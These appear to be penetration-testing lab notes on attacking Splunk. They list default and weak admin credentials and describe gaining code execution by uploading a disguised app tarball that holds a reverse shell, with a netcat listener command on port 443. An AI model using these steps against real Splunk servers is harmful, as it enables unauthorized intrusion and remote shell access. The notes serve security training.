 ## Info

- Splunk is often used for security monitoring and business analytics. 
- Splunkd httpd service on port 8000 and port 8089, the Splunk management port for communication with the Splunk REST API.
- The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication.
- https://www.cvedetails.com/vulnerability-list/vendor_id-10963/Splunk.html

## Enumeration

- On older versions of Splunk, the default credentials are admin:changeme, which are conveniently displayed on the login page.
- Weak creds: admin, Welcome, Welcome1, Password123

## Attacking

**Code Execution**

- Shell:`https://github.com/0xjpuff/reverse_shell_splunk/tree/master`

```
L3pr3ch4un@htb[/htb]$ tree splunk_shell/splunk_shell/
├── bin
└── default

2 directories, 0 files
```

- The bin directory will contain any scripts that we intend to run
- default directory will have our inputs.conf file.

`L3pr3ch4un@htb[/htb]$ tar -cvzf updater.tar.gz splunk_shell/`

`sudo nc -lnvp 443`

![](https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FNF4Wpa0IBpoT3qGHQUaM%2Fimage.png?alt=media&token=0d3a9f55-b800-4c67-92de-0c1a38bdbbe0)
On the Upload app page, click on browse, choose the tarball we created earlier and click Upload.


